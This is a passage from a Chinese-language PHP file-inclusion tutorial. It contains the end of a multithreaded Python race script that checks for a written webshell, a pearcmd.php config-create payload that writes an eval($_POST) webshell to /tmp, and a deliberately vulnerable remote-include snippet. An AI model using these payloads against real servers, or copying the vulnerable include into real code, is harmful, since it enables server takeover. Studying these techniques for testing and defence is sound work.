 ```python
        r = session.get(url+'shell.php') # 检查是否写入一句话木马
        if r.status_code == 200:
            print('OK')
            return ;

evnet=threading.Event() # 多线程

session = requests.session()
for i in range(5):
    threading.Thread(target = write,args = (session,)).start()
for i in range(5):
    threading.Thread(target = read,args = (session,)).start()

evnet.set()
```

### pear文件包含

引入**P牛**师傅原话

::: tip
pecl是PHP中用于管理扩展而使用的命令行工具，而pear是pecl依赖的类库。在7.3及以前，pecl/pear是默认安装的；在7.4及以后，需要我们在编译PHP的时候指定--with-pear才会安装。
:::

原本pear/pcel是一个命令行工具，并不在Web目录下，即使存在一些安全隐患也无需担心。但我们遇到的场景比较特殊，是一个文件包含的场景，那么我们就可以包含到pear中的文件，进而利用其中的特性来搞事

先包含`pear`文件，利用php的命令行参数`config-create`写文件，所以payload：

payload里存在`&`,`+`等特殊字符，直接使用hackbar发包会被编码失去原意，导致执行失败，所以要使用bp发包

```php
?file=/usr/local/lib/php/pearcmd.php&+config-create+/<?=highlight_file(__FILE__);eval($_POST[1]);?>+/tmp/11
```

再包含目录文件`/tmp/11`，完成利用

## 远程文件包含

在php.ini配置文件中打开**allow_url_include**时，可以将远程恶意文件包含在服务器端执行  

例如

漏洞代码

```php
<?php
$url=$_GET['url'];
include$url;
?>
```

测试文件
